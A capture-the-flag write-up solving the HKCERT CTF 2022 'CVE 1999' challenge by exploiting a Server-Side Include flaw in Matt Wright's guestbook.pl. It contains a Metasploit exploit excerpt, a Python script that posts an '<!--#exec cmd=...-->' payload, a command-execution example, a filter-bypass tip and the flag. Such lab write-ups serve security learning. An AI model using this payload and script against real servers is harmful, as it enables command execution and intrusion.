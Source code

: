 # CVE 1999

## Overview

- Overall difficulty for me (From 1-10 stars): ★★★★★★★☆☆☆

- Challenge difficulty: ★★☆☆☆

## Background

[Old news](https://www-info-gov-hk.translate.goog/gia/general/200002/24/0224258.htm?_x_tr_sl=zh-TW&_x_tr_tl=en&_x_tr_hl=en-US&_x_tr_pto=wapp) is so existing

Web: [http://chal-a.hkcert22.pwnable.hk:28229/~matt/guestbook.html](http://chal-a.hkcert22.pwnable.hk:28229/~matt/guestbook.html) , [http://chal-b.hkcert22.pwnable.hk:28229/~matt/guestbook.html](http://chal-b.hkcert22.pwnable.hk:28229/~matt/guestbook.html)

Remark: The guestbook will be cleaned up per minute

## Find the flag

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112231222.png)

In here, we can see this is a **guestbook which created by Matt Wright**.

**addguest.html:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112231430.png)

**Also, we can send a POST request to `/~matt/cgi-bin/guestbook.pl`.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112231506.png)

**Let's use `searchsploit` to see is there any public exploits!**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# searchsploit Matt Wright Guestbook
------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                           |  Path
------------------------------------------------------------------------- ---------------------------------
Matt Wright Guestbook 2.3.1 - Guestbook.pl Multiple HTML Injection Vulne | cgi/webapps/27594.txt
The Matt Wright Guestbook.pl - Arbitrary Command Execution (Metasploit)  | cgi/webapps/16914.rb
The Matt Wright Guestbook.pl 2.3.1 - Server-Side Include                 | cgi/webapps/9907.rb
------------------------------------------------------------------------- ---------------------------------
```

**Looks like it's vulnerable to Server-Side Include (SSI)!**

**We can use `searchsploit -m` to mirror the exploit script:**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# searchsploit -m 16914
```

**Snipped `16914.rb` exploit script:**
```ruby
	def exploit
		realname	= rand_text_alphanumeric(20)
		email		= rand_text_alphanumeric(20)
		city		= rand_text_alphanumeric(20)
		state		= rand_text_alphanumeric(20)
		country 	= rand_text_alphanumeric(20)

		sploit = Rex::Text.uri_encode("<!--#exec cmd=\"" + payload.encoded.gsub('"','\"') + "\"", 'hex-normal')

		req1 = send_request_cgi({
			'uri'     => datastore['URI'],
			'method'  => 'POST',
			'data'    => "realname=#{realname}&username=#{email}&city=#{city}&state=#{state}&country=#{country}&comments=#{sploit}",
		}, 25)

		req2 = send_request_raw({
			'uri'     => datastore['URIOUT'],
		}, 25)

	end
```

**Hmm... Looks like the `<!--#exec cmd="payload_here"` is the payload!**

**Let's write a simple python script to automate that!**
```py
#!/usr/bin/env python3

import requests
import string
import random
import sys
import urllib.parse

def main(payload):
	url = 'http://chal-a.hkcert22.pwnable.hk:28229/~matt/'
	payload = sys.argv[1]
	data = {
	'realname': ''.join(random.choices(string.ascii_letters, k=20)),
	'username': ''.join(random.choices(string.ascii_letters, k=20)),
	'url': ''.join(random.choices(string.ascii_letters, k=20)),
	'city': ''.join(random.choices(string.ascii_letters, k=20)),
	'state': ''.join(random.choices(string.ascii_letters, k=20)),
	'country': ''.join(random.choices(string.ascii_letters, k=20)),
	'comments': payload
}
	requests.post(url + 'cgi-bin/guestbook.pl', data=data)
	#requests.get(url + 'guestbook.html')

if __name__ == '__main__':
	if len(sys.argv) > 1:
		payload = sys.argv[1]
		main(payload)
	else:
		print(f'Usage: {sys.argv[0]} <payload>')
```

```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# python3 chal_automate.py '<!--#exec cmd="/bin/ls /"'
```

**Now, when you refresh the `guessbook.html` page, you should see all the files in the target machine!**

> Note1: Although I get the flag, I have no idea why the exploit sometimes work, sometimes didn't work.

> Note2: After the CTF, [Kaiziron](https://twitter.com/kaiziron) said that the reason why it happens is because this:

```
$value =~ s/<!--(.|\n)*-->//g;
```

> To get the payload working, we need to put `-->` on another field to close the payload.


- **Flag: `hkcert22{DiDu_c0opy_others_FLags_or_c0rnment_brb_Tags}`**

# Conclusion

What we've learned:

1. Exploiting Server-Side Include Vulnerability